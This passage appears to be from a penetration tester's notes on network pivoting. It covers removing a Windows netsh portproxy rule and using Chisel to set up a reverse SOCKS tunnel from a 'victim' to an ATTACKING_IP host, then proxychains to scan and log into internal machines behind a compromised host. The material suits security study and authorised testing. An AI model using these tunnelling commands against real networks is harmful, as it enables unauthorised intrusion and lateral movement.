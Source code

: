 This is actually a shell on 10.100.11.100. I forgot to show `ipconfig`. To delete the portproxy rule just do this

{% code overflow="wrap" %}
```c
C:\WINDOWS\system32>netsh interface portproxy delete v4tov4 listenport=3333 listenaddress=10.100.11.101

C:\WINDOWS\system32>netsh interface portproxy show all
```
{% endcode %}

Once deleted, `show all` will return zero results.

## Chisel (Windows/Linux)

{% hint style="info" %}
If it fails, also try an older release version
{% endhint %}

<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash">https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html#
https://infinitelogins.com/2020/12/11/tunneling-through-windows-machines-with-chisel/
<strong>
</strong><strong># Download the binaries here:
</strong>https://github.com/jpillora/chisel/releases

#If we execute it on Windows, transfer it and the name to chisel.exe

# REVERSE SOCKS PROXY
./chisel server -p LISTEN_PORT (--socks5) --reverse &#x26; #attacking box
./chisel client (--max-retry-count 1) ATTACKING_IP:LISTEN_PORT R:socks &#x26; #victim
# With root privileges edit the file /etc/proxychains4.conf. At the bottom you should add the following line:
socks5 127.0.0.1 1080
# (1080 is the default port of the chisel reverse proxy) 
# If there is a line with port 9050 above it, comment it out. That's Tor port

# You can now attack a third server connected to our compromised target but not visible from the outside (ex. 10.0.60.99) by adding proxychains -q before every command. The -q is for quiet mode since most attackers wont need verbose proxy traffic.
proxychains -q nmap -sC -sV 10.0.60.99
proxychains -q ssh user@10.0.60.99
proxychains -q mysql -u dbuser -h 10.0.60.99
# Drawbacks
#    NMAP scans are much slower than usual.
#    UDP stuff probably doesn’t work. Microsoft RDP for example can behave funky.